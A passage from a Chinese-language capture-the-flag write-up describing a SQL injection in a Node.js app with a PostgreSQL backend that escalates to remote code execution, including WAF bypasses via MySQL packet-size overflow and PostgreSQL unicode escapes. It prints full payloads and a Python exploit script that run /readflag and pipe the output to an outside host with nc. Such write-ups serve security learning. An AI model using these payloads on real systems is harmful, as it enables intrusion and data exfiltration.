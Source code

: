 ![image-20211117164222973](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211117164222973.png)

其中核心payload分割后用b64编码+反引号来执行语句；Function环境下没有`require()`函数，不能获得`child_process`模块，使用`process.mainModule.constructor._load`来代替`require`

修复方法是将`fileName.replace(/'/g, "\\'")`修改为`escape(fileName)`，对大部分有问题字符进行转义

### mysql的`max_allowed_packet`

默认最大16M，超过则关闭连接不执行sql语句，不会把我们此次查询的记录保留下来，可以绕过waf

### postgresql特殊语句

特性：支持将16进制的值转换为unicode字符，并且可以自定义转义符

利用这一点可以绕waf，空格用`\t`绕过，自定义转义符设为感叹号

```sql
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```

这道题的sql注入点在update之后

```sql
INSERT INTO users(username, password) VALUES('${username}', '${password}') ON CONFLICT (username) DO NOTHING
```

一样的思路，先闭合，在构造正常的js语句

```
""','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc 10.188.2.20 9999`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""
```

还得结合一下前面那个16M的溢出

```python
str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
```

最后是完整的exp，来自于orange佬

```python
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc 10.188.2.20 9999`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload,
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://10.188.2.20:12345/reg', data=data);
print r.content
```
